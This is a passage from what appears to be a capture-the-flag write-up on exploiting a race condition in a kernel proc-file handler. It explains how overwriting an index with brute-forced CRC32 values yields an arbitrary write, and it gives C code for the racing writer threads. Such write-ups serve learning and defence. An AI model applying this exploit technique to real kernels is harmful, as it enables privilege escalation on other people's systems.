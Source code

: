 So, after the `kcrc`, we have `procfile` and `idx`. Which one would be interesting for us to overwrite? Obviously, `idx`. Overwriting `procfile` is redundant as it is only a pointer to a kernel struct, and changing it does not do anything.

So, by calculation it is clear that when we're in `idx = 257` (post race overwrite), we overwrite `idx`. That means that we can write a CRC32 value into the `idx`, and that'll give us an arbitrary write (which will write CRC32 values). On the surface, this sounds horribly weak; CRC32 values are seemingly random, and it sounds very prone to errors.

That would be the case.. But, we control the data we CRC, as well as the length. And, if we actually take the time to research a bit more, we can see that CRC32 is actually bijective, due to the fact CRC32 is a calculation of remainder over GF(2). For more information, and a POC that shows this, [this is a nice resource](https://yurichev.com/news/20211224_CRC32/). That means that we can brute-force CRC32 to find what 32-bit value we need to feed it in order to get our required `idx` or data to overwrite. This gives us an arbitrary write primitive (except for `procfile`, which is at `idx = 256`).

### Implementing the Race Condition

Our race is pretty simple:

```c
void *write_thread(void *arg) {
    long cpu = (long)arg;
    cpu_set_t cpuset;
    CPU_ZERO(&cpuset);
    CPU_SET(cpu % sysconf(_SC_NPROCESSORS_ONLN), &cpuset);  // Pin to available CPUs
    if (sched_setaffinity(0, sizeof(cpuset), &cpuset) < 0) {
        perror("sched_setaffinity");
    }

    int fd = open(PROC_FILE, O_RDWR);
    if (fd < 0) {
        perror("open in thread");
        return NULL;
    }

    // Read a lot to stall and ensure there's a race. :)
    uint32_t wd[3] = {0xADD, 0xc1000000, 0x1f0000};  

    // Wait for all threads to be ready
    pthread_barrier_wait(&barrier);

    // All threads write as simultaneously as possible
    printf("Writing in thread %d", cpu);

    if (write(fd, wd, sizeof(wd)) != 1) {
        perror("write in thread");
    }
    else {
        printf("Success!\n");
    }

    return NULL;
}
```

